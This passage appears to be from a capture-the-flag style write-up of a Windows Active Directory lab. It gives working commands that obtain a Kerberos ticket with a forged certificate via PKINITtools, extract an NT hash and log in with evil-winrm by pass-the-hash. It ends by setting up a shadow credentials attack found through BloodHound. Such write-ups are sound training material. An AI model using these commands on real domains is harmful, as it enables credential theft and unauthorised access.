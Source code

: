 
#### Requesting a TGT for MANAGEMENT_SVC with PKINITtools getgtgkinit: {#requesting-a-tgt-management-svc-for-with-pkinittools-getgtgkinit}

-   **Request TGT &amp; export as** `.ccache` **by using our** `newCert_cert.pem` **&amp;** `newCert_priv.pem`:
    -   `python3 /home/kali/windowsTools/PKINITtools/gettgtpkinit.py -cert-pem newCert_cert.pem -key-pem newCert_priv.pem $domain/MANAGEMENT_SVC MANAGEMENT_SVC.ccache`
    -   {{< figure src="/ox-hugo/2024-11-06-111456_.png" >}}
    -   **We can see our** `.ccache`:
        -   {{< figure src="/ox-hugo/2024-11-06-111358_.png" >}}

-   **Next we will load the** `ccache` **into our** `KRB5CCNAME` **variable as we will need this for next step**:
    -   `export KRB5CCNAME=./MANAGEMENT_SVC.ccache`


#### Requesting the MANAGEMENT_SVC user hash with PKINITtools getnthash: {#requesting-the-management-svc-user-hash-with-pkinittools-getnthash}

-   **Extract the NTHash for the MANAGEMENT_SVC user**:
    -   `python3 /home/kali/windowsTools/PKINITtools/getnthash.py -key d03e77aab1235a85021ef9936275dd2e4df05d027c381d33695338dcb0772389 $domain/MANAGEMENT_SVC`
    -   {{< figure src="/ox-hugo/2024-11-06-112752_.png" >}}
    -   Hash retrieved for `MANAGEMENT_SVC` account.

-   **Lets verify the hash works**:
    -   `netexec smb $box -u $user -H $hash`
    -   {{< figure src="/ox-hugo/2024-11-06-113709_.png" >}}
    -   It does.

-   I try and crack the hash using hashcat but it wont' crack.


### Logging in as MANAGEMENT_SVC: {#logging-in-as-management-svc}

-   **Login using evil-winrm**:
    -   `evil-winrm -i $box -u $user -H $hash`

-   **Grab our** `user.txt` **flag**:
    -   {{< figure src="/ox-hugo/2024-11-06-113925_.png" >}}


## 3. Lateral Movement: {#3-dot-lateral-movement}


### Discovering that MANAGEMENT_SVC has GenericAll over CA_OPERATOR: {#discovering-that-management-svc-has-genericall-over-ca-operator}

-   **Looking back in bloodhound I see we have** `GenericAll` **privileges over** "CA_OPERATOR" **which means we can actually just perform another shadow credentials attack**:
    -   {{< figure src="/ox-hugo/2024-11-06-114950_.png" >}}
